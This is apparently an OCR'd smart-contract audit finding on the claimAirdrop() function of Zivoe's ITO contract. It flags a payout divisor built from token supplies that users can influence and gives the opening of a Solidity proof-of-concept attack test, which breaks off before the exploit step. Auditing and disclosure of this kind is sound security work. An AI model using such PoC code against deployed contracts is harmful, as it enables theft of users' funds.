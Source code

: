 ```solidity
            "ZivoeITO::claimAirdrop() seniorCredits[depositor] == 0 && juniorCredits[depositor] == 0"
        );

        airdropClaimed[depositor] = true; //ok

        // Temporarily store credit values, decrease them to 0 immediately after.
        uint256 seniorCreditsOwned = seniorCredits[depositor]; //ok
        uint256 juniorCreditsOwned = juniorCredits[depositor]; //ok

        seniorCredits[depositor] = 0; //ok
        juniorCredits[depositor] = 0; //ok

        // Calculate proportion of $ZVE awarded based on $pZVE credits.
        uint256 upper = seniorCreditsOwned + juniorCreditsOwned;
        uint256 middle = IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply() / 20; // fixed value
        uint256 lower = IERC20(IZivoeGlobals_ITO(GBL).zSTT()).totalSupply() * 3 + (
            IERC20(IZivoeGlobals_ITO(GBL).zJTT()).totalSupply() // calculating lower with a dynamic values which can be controlled by user
        );
        emit AirdropClaimed(depositor, seniorCreditsOwned / 3, juniorCreditsOwned, upper * middle / lower);

        IERC20(IZivoeGlobals_ITO(GBL).zJTT()).safeTransfer(depositor, juniorCreditsOwned); //ok
        IERC20(IZivoeGlobals_ITO(GBL).zSTT()).safeTransfer(depositor, seniorCreditsOwned / 3); //ok
        if (upper * middle / lower > 0) {
            ITO_IZivoeRewardsVesting(IZivoeGlobals_ITO(GBL).vestZVE()).createVestingSchedule(
                depositor, 0, 360, upper * middle / lower, false
            );
        } 
        return (seniorCreditsOwned / 3, juniorCreditsOwned, upper * middle / lower); //ok
    }
```
## POC
* For 1st attack Scenario
```solidity
function test_Attack_ClaimAirdrop() public {
        //commence the ITO
        zvl.try_commence(address(ITO));
        address asset = USDC;
        uint256 amount = 1000e6;
        //mints aand approve tokens
        mint("USDC", address(sam), amount);
        assert(sam.try_approveToken(asset, address(ITO), amount));
        mint("USDC", address(sue), amount);
        assert(sue.try_approveToken(asset, address(ITO), amount));
        mint("USDC", address(jim), amount);
        assert(jim.try_approveToken(asset, address(ITO), amount));
        mint("USDC", address(bob), amount);
        assert(bob.try_approveToken(asset, address(ITO), amount));

        //time warped to exactly 1 second after ITO starts
        hevm.warp(ITO.end() - 30 days + 1 seconds);

        // ito participants deposit tokens during the duration of ITO
        assert(sam.try_depositSenior(address(ITO), amount, asset));
        assert(sue.try_depositSenior(address(ITO), amount, asset));
        assert(jim.try_depositSenior(address(ITO), amount, asset));
        assert(bob.try_depositSenior(address(ITO), amount, asset));

        // conclude the ITO
        hevm.warp(ITO.end() +  1 seconds);
```